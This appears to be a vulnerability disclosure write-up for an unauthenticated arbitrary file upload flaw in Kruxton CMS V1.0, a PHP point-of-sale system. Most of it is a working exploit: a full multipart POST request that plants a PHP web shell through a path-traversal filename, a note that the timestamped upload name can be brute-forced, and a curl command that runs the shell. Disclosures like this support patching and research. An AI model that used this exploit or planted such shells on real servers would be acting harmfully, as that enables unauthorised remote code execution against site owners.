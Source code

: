# Kruxton CMS V1.0 - Arbitrary file upload vulnerability

### You do not need to log in and open the website storage directory

Supplier:https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

http://localhost/ajax.php?action=save_settings   -----> POST request ----->  'filename' can control some file name parameters

Vulnerability location: admin_class.php in the root directory of the website. Triggered by the save_settings function in ajax.php

Web function point, after logging into the background, System Settings ->Image

Note: Triggering this vulnerability does not require logging in.

![1](/img/Best-pos-management-system-in-php/8.png)

Source code location: line 165 of the admin_class.php file in the root path.

![2](/img/Best-pos-management-system-in-php/11.png)

POST:
```
POST /ajax.php?action=save_settings HTTP/1.1
Host: www.kruxton.com:8083
Content-Type: multipart/form-data; boundary=---------------------------988021490109555064829866363
Content-Length: 685

-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="name"

5
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="email"

3@gmail.com
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="contact"

2
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="about"

1113
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="img"; filename="../../shell.php"
Content-Type: image/png

<?php system("dir");
-----------------------------988021490109555064829866363--
```

![3](/img/Best-pos-management-system-in-php/12.png)

Analyze the source code and name the uploaded file as timestamp+_+file name, which can be brute force cracked to obtain the file name.

![5](/img/Best-pos-management-system-in-php/14.png)

```cli
curl "http://www.xxxxx.com/assets/uploads/1709986620_shell.php"
```

![4](/img/Best-pos-management-system-in-php/13.png)

Successfully executed dir command!
